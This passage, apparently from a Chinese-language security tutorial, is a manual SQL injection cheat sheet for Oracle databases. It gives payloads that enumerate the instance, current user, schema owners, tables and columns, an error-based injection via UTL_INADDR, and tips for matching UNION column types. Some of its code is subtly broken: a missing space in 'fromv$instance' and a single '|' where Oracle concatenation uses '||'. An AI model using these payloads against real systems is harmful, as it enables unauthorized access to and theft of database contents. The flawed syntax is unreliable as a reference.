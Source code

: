 **`select member from v$logfile where rownum=1`**

**服务器sid：**

**`select instance_name fromv$instance`**

**当前连接用户：**

```mysql
select SYS_CONTEXT ('USERENV', 'CURRENT_USER')from dual
```

**获取数据库名：**

```mysql
select owner from all_tables where rownum=1
依次爆出所有数据库名，假设第一个库名为first_dbname哪个第二个库select owner from all_tables where rownum=1 and owner<>'first_dbname'依次类推
```

**获取表名：**

```mysql
select table_name from user_tables where rownum=1，依次爆出所有表类似暴库。
```

**获取字段名：**

```mysql
select column_name from user_tab_columns where table_name='tablename' and rownum=1，依次爆出所有字段类似暴库。
```

## 2.2 报错注入

```mysql
AND 2=UTL_INADDR.GET_HOST_ADDRESS(CHR(126)|(SLQ语句)|CHR(126))
```

## 2.3 踩的一些坑

**Oracle比较玄学，能用SQLmap绝不手工，但测试中总会遇到必须用手工的，比如xml中的一个参数注入(当然也可以写tamper脚本)，总结一下自己踩到的坑。**

### 2.3.1 UNION每个字段类型必须相同

**比如，原先的语句是这样：**

```mysql
select 1,'2','3' from dual
```

**那么后面的UNION也必须是int,char,char才行。**

**可以通过下面方法确定各个字段的类型。**

```mysql
and 1=2 union select 'null',null,null,null,null,null from dual
```

**如此依次将下面的每个null用单引号替换，查看返回页面，返回正常说明那个字段为字符型。确定所有字段类型后就可以注入了， 是字符型的就用’null’，数字型的就直接null**

### 2.3.2 必须跟FROM
